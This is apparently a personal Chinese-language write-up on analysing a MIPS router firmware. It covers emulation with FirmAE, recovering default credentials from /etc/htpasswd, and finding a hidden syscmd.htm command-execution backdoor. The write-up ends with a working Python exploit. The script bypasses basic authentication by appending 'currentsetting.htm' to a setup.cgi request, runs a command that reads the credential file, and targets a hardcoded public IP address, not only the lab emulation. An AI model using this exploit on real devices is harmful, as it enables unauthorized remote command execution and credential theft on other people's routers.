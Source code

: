 # 基础信息收集
binwalk看一下，是个MIPS的大端序，文件系统是squashfs的
![[b6f6302f13cdaf1136d00766420f3e3.png]]
用FirmAE调试模式模拟这个固件，输入2是可以直接进入到shell模式的
![[Pasted image 20240724205358.png]]
去访问192.168.0.1，发现要输入账号和密码，测试了一些常规的默认密码都不对
![[9655cdfcd7cf04831c31b82fc829e83.png]]
于是想着去看一下启动项
![[51945e2ffa456356c9bf368846fdcc5.png]]
查找了一下，去rcS看了一下里面的内容，发现它启动了rc这个二进制文件，打开rc这个二进制文件，搜索了一下password这个字符串，看到它是写在/etc/htpasswd
![[5c2f720f68aae69bd511186df4f77a7.png]]
在shell模式下，cat ./etc/htpasswd发现了初始用户名和密码
![[3b974a4c737816ecdda707cad9cac87.png]]

ps:轩尼诗道师傅的方法
直接在文件中搜索default找到位置，cat 一下就看到了
![[Pasted image 20240724210253.png]]
ps:longlong师傅的方法
firmwalk之后看到关键字password下面的hpasswd.htm直接访问，有提示初始密码是password，那么初始用户名试一下就出来了
![[Pasted image 20240724210654.png]]

再查看一下目录结构，发现这俩个奇怪的.htm文件，直接访问一下
![[Pasted image 20240724212102.png]]
发现在访问到192.168.0.1/syscmd.htm时发现这不是妥妥的小后门嘛
![[Pasted image 20240724212336.png]]

# 后门玩成未授权
既然有了后门，尝试一下它能不能不授权就执行嘞
burp抓一下，看到有BA认证，直接给它删了看看行不行，显然不行
![[Pasted image 20240724213440.png]]
跳到了401，说明在服务器上处理了这个cgi，于是应该去看一下这个固件mini_httpd二进制分析一下
（正常来说应该，下载相同版本的源码，编译后bindiff查看有什么不同，才学疏浅的原因操作不来）
直接定位到不同的地方
![[Pasted image 20240725095737.png]]
定位到这里发现它的值会从1变到0，并且会将其传入后续函数
![[Pasted image 20240725095934.png]]
这个函数里面的内容就是处理密码校验、BA认证等操作，才学疏浅还没分析明白

# exp
```
import requests

ip = "197.246.12.117"

cmd = "cat etc/htpasswd"

payload = "currentsetting.htm"

burp0_url = "http://"+ip+":80/setup.cgi?todo=syscmd&cmd="+cmd+"&curpath=/&"+payload+""

burp0_headers = {"Accept": "*/*", "Referer": "http://"+ip+"/syscmd.htm"}

response = requests.get(burp0_url, headers=burp0_headers)

print(response.text)
```
![[Pasted image 20240724232305.png]]![[Pasted image 20240724232414.png]]
![[Pasted image 20240724232541.png]]
